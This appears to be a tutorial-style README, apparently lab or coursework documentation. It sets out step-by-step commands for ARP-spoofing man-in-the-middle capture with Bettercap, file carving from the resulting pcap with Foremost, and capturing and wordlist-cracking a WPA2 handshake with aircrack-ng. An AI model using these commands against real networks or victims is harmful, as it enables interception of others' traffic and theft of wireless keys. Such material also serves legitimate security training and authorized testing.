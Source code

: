 # File Carving & WPA2 4-Way Handshake Cracking Documentation

## Tools Used
- **Bettercap** – For MITM attacks and packet capturing.
- **Wireshark** – For analyzing captured packets.
- **Foremost** – For file carving from packet captures.
- **Aircrack-ng** – For WPA2 handshake cracking.
- **Airmon-ng & Airodump-ng** – For monitoring wireless traffic and capturing WPA2 handshakes.

---

## Setting Up the Network Adapter

### For Wireless Interfaces (Monitor Mode)
1. Identify your network interface:
   ```bash
   sudo iwconfig
   ```
2. Put the wireless adapter in monitor mode:
   ```bash
   sudo airmon-ng start <interface_name>
   ```
   *Replace `<interface_name>` with the correct network interface (e.g., wlan0).*

### For Wired Interfaces (Bridge Mode)
1. Create a network bridge:
   ```bash
   sudo brctl addbr bridge0
   ```
2. Add your network interface to the bridge:
   ```bash
   sudo brctl addif bridge0 <interface_name>
   ```
3. Bring up the bridge:
   ```bash
   sudo ifconfig bridge0 up
   ```

---

## Using Bettercap for MITM (with PCAP File)

### Step 1: Start Bettercap
Run Bettercap with the correct network interface:
```bash
sudo bettercap -iface <interface_name>
```
*Replace `<interface_name>` with your network interface, e.g., eth0, wlan0.*

### Step 2: Enable Packet Capture
Inside the Bettercap interactive console, run:
```bash
set net.sniff.output output.pcap
net.sniff on
```

### Step 3: Start ARP Spoofing
```bash
set arp.spoof.targets <target_IP>
arp.spoof on
```
*Replace `<target_IP>` with the victim’s IP address.*

### Step 4: Capture HTTP Requests
If targeting HTTP traffic:
```bash
set http.server.address <your_IP>
set http.server.path /tmp
http.server on
```
Using our edited HTTP, we created a file upload server.

### Step 5: Stop Packet Capture
```bash
net.sniff off
arp.spoof off
```

### Step 6: Exit Bettercap
```bash
exit
```

---

## Analyzing the PCAP File
The captured packets are stored in `output.pcap`. Open it with Wireshark:
```bash
wireshark output.pcap
```

---

## File Carving from PCAP
Use Foremost to extract files:
```bash
sudo foremost -i output.pcap -o extracted_files
```
### Review the Extracted Files
Navigate to the output directory:
```bash
cd extracted_files
```
Check inside directories categorized by file type (e.g., jpg, gif, png, etc.).

---

## WPA2 4-Way Handshake Cracking

### Step 1: Capture WPA2 Handshake
1. Start monitoring mode:
   ```bash
   sudo airmon-ng start wlan0
   ```
2. Start capturing packets:
   ```bash
   sudo airodump-ng -c <channel> --bssid <router_BSSID> -w handshake_capture wlan0mon
   ```
   *Replace `<channel>` with the router’s channel and `<router_BSSID>` with the target’s MAC address.*

### Step 2: Crack the WPA2 Key
Use Aircrack-ng with a wordlist:
```bash
sudo aircrack-ng -w <wordlist> -b <router_BSSID> handshake_capture.cap
```
*Replace `<wordlist>` with a password list and `<router_BSSID>` with the target’s MAC.*


